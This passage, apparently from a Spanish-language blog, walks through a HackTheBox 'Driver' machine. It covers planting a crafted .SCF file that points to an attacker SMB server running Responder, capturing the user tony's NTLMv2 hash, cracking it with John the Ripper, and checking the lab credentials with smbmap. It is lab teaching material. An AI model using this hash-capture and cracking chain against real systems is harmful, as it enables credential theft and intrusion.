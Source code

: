 El `tun0` es la interfaz donde esta sirviendo la VPN de HackTheBox, o sea que estaríamos levantando un servidor contra la IP `10.10.14.121`:

```bash
❱ responder.py -I tun0
...
[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.121]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']
...
```

Ahora, generamos el objeto `.SCF` (guiados por los dos recursos listados previamente):

```bash
❱ cat hola.scf 
[Shell]
Command=2
IconFile=\\10.10.14.121\hola
[Taskbar]
Command=ToggleDesktop
```

Ahí vemos la referencia hacia nuestro servidor y una carpeta llamada `hola` que claramente no existe y que no es necesario que exista, PEEERO sí que esté ahí en la definición. Subimos el objeto mediante la web al apartado de **firmwares** yyyyyy en nuestro servidooooooooooooooooor:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/driver/387bash_responder_tonyHash.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

PEEEERFECTOooOOOo, vemos que el usuario `tony` es el que esta probando los updates, lo que significa que ejecuto nuestro objeto `.SCF` y, por lo tanto, envió su hash **NTLMv2** a nuestro servidor, ya que intento "autenticarse" contra él.

* [Más info sobre los tipos de hashes (y el "por que" sabemos que es un NTLMv2)](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4).

Ahora que tenemos el **hash** (tómalo completo, desde **tony** hasta los **000** y guárdalo en un archivo), intentemos crackearlo, usaré `JohnTheRipper`:

Esto lo que hará será tomar una wordlist lleeeeeena de palabras, pasarlas a **hash** y compararlas con el nuestro, si alguno hace match sabremos que esa palabra es la contraseña en texto plano (:

```bash
❱ john --wordlist=/usr/share/wordlists/rockyou.txt --format=netntlmv2 tony.ntlmv2
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/driver/387bash_JtR_tonyNTLMv2.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Listooones, nos devuelve una contraseña, si recordamos el único servicio que tenemos para probar credenciales es `SMB`, así que juguemos con `smbmap` (por ejemplo) para validarlas:

```bash
❱ smbmap -H 10.10.11.106 -u 'tony' -p 'liltony'
[+] IP: 10.10.11.106:445        Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

